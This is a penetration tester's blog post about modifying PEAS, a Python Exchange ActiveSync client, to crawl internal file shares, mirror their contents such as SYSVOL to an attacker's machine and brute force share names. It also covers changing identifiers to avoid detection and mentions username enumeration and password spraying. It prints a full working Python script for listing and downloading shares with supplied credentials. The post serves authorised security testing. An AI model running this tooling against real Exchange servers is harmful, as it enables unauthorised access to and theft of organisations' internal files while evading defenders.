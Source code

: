 ```yaml
---
layout: post
title: "Tuning PEAS for Fun and Profit"
date: 2020-08-22 19:00:00 +0300
author: snovvcrash
tags: [external-pentest, exchange, activesync, peas, python]
published: true
---
```


At the recent external pentest engagement I had a feeling that PEAS (Python Exchange ActiveSync client) is missing some handy features. For example, crawling shared folders and auto downloading discovered files would be a nice function to have as well as brute forcing potential shares by a wordlist. To save time I wrote a draft script at the time of the pentest, but then I decided to fork PEAS project and tune the source code.

<!--cut-->

![banner.png](/assets/images/tuning-peas-for-fun-and-profit/banner.png)
{:.center-image}

*"Would you like to be modified?"*
{:.quote}

* TOC
{:toc}

## Prologue

Few pentest experts would argue that if there is an OWA client on the perimeter, then be ready to collect loot. And that is because OWA means MS Exchange, and MS Exchange is not the best spot to demonstrate perfect security out of the box. [Time-based username enumeration](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/) will give you account names and a [password spray](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials) will likely reveal some weak credentials in the domain.

One of the ways where to go next is a hunt for fileshares with juicy content through [Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/). If you dare choose this path, then [PEAS](https://github.com/FSecureLABS/peas) by [@FSecureLABS](https://twitter.com/fsecurelabs) could become your loyal companion along the way, but there is quite a few things that could be upgraded in this tool very simply. I will fork PEAS and add some modifications to the code.

## Crawl & Dump Shared Folders

The first thing I felt the need for was the ability to recursively crawl the share searching for files by a given pattern. Let's say that the only share you were able to guess (or that you had access to) was DC's `SYSVOL`. Then it would be a pain to examine all the GUID style policy paths manually. If we could automate this process and add this `--download` option in order to mirror `SYSVOL` to an attacker's machine, then it would not be a big deal to run `find` through all the content and `xargs grep` for some extra hostnames / account names. That's exactly what [crawl_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L298) serves for:

[![peas-crawl-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)
{:.center-image}

## Brute Force Share Names

In case you did not find any additional names within `SYSVOL` contents, then you could try to enumerate shares with a brute force attack. The [hostnames.txt](https://github.com/snovvcrash/peas/blob/master/hostnames.txt) wordlist stores some common machine names that will be mutated on-the-fly using predefined patterns and a prefix string (if you provide one). That is what [brute_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L351) is responsible for:

[![peas-brute-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)
{:.center-image}

Because I can list the root directory of the share, there is no need to guess child folder names as well — they will appear if the machine have any.

## Fix Encoding

It is also worth noting, that PEAS will likely break if it encounters a non-en-US characters in a pathname. That can be [fixed](https://github.com/snovvcrash/peas/commit/fe5508700246710325b727558b49acd8d954e746) by removing explicitly set UTF-8 encoding.

## Mimic Legitimate Identifiers

As it is stated in [@ptswarm](https://twitter.com/ptswarm)'s [research](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/):

![ptswarm-peas-1.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-1.png)
{:.center-image}

![ptswarm-peas-2.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-2.png)
{:.center-image}

Because PEAS is just a **P**ython client for **EAS**, it needs to have a user-agent string and some other identifiers that can easily be fingerprinted and added to a blacklist. Anyways, [changing them](https://github.com/snovvcrash/peas/commit/ee288bef77fb69217a2442c9b5440cd830a7846b) is also quite a straightforward task.

## Draft Script

This is the draft script that was written at the time of engagement before forking PEAS:

```python
#!/usr/bin/env python

# Usage: python2 peas-crawl-shares.py -h

import os
import errno
from random import choice
from string import ascii_uppercase, digits
from argparse import ArgumentParser

import peas
from pathlib import Path, PureWindowsPath


def init_peas_client(server, domain_netbios, user, password):
	client = peas.Peas()
	client.disable_certificate_verification()

	client.set_creds({
		'server': server,
		'user': '%s\\%s' % (domain_netbios, user),
		'password': password,
	})

	print('[*] Auth result: %s' % client.check_auth())

	return client


def list_unc(client, uncpath, show_parent=True):
	records = client.get_unc_listing(uncpath)

	if show_parent:
		print('[*] Listing: %s\n' % (uncpath,))

	output = []
	for record in records:
		name = record.get('DisplayName')
		path = record.get('LinkId')
		is_folder = record.get('IsFolder') == '1'
		is_hidden = record.get('IsHidden') == '1'
		size = record.get('ContentLength', '0') + 'B'
		ctype = record.get('ContentType', '-')
		last_mod = record.get('LastModifiedDate', '-')
		created = record.get('CreationDate', '-')
		attrs = ('f' if is_folder else '-') + ('h' if is_hidden else '-')
		output.append("%s %-24s %-24s %-24s %-12s %s" % (attrs, created, last_mod, ctype, size, path))

	print('\n'.join(output))


def crawl_unc(client, uncpath, download=False):
	records = client.get_unc_listing(uncpath)
	for record in records:
		if record['IsFolder'] == '1':
			if record['LinkId'] == uncpath:
				continue
			crawl_unc(client, record['LinkId'], download)
		else:
			if download:
				try:
					data = client.get_unc_file(record['LinkId'])
				except TypeError:
					pass
				else:
					winpath = PureWindowsPath(record['LinkId'])
					posixpath = Path(winpath.as_posix()) # Windows path to POSIX path
					posixpath = Path(*posixpath.parts[1:]) # get rid of leading "/"
					dirpath = posixpath.parent
					dirpath = mkdir_p(dirpath)
					filename = str(dirpath / posixpath.name)
					try:
						with open(filename, 'w') as fd:
							fd.write(data)
					# If path name becomes too long when filename is added
					except IOError as e:
						if e.errno == errno.ENAMETOOLONG:
							dirpath = Path(dirpath.parts[0])
							extname = posixpath.suffix
							# Generate random name for the file and put it in the root share directory
							filename = ''.join(choice(ascii_uppercase + digits) for _ in range(8)) + extname
							filename = str(dirpath / filename)
							with open(filename, 'w') as fd:
								fd.write(data)
						else:
							raise

			list_unc(client, record['LinkId'], show_parent=False)


def mkdir_p(dirpath):
	try:
		dirname = str(dirpath)
		os.makedirs(dirname)
	except OSError as e:
		if e.errno == errno.EEXIST and os.path.isdir(dirname):
			pass
		# If directory path name already too long
		elif e.errno == errno.ENAMETOOLONG:
			dirpath = Path(dirpath.parts[0])
		else:
			raise

	return dirpath


if __name__ == '__main__':
	parser = ArgumentParser()
	parser.add_argument('-s', '--server', required=True, help='server')
	parser.add_argument('-d', '--domain-netbios', required=True, help='domain NetBIOS name')
	parser.add_argument('-u', '--user', required=True, help='username')
	parser.add_argument('-p', '--password', required=True, help='password')
	parser.add_argument('--uncpath', help='UNC path')
	parser.add_argument('--crawl-unc', action='store_true', help='recursively list all files within specified UNC path')
	parser.add_argument('--download', action='store_true', help='recursively list & download files within specified UNC path')

	args = parser.parse_args()

	client = init_peas_client(args.server, args.domain_netbios, args.user, args.password)
	list_unc(client, args.uncpath)

	if args.crawl_unc:
		if args.download:
			print('\n[*] Listing and downloading all files...\n')
		else:
			print('\n[*] Listing all files...\n')

		crawl_unc(client, args.uncpath, download=args.download)
```

## Modified PEAS

* [snovvcrash/peas](https://github.com/snovvcrash/peas)

## Refs

* [FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [Accessing Internal Fileshares through Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [PEAS: Access internal fileshares through Exchange ActiveSync](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [Attacking MS Exchange Web Interfaces – PT SWARM](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
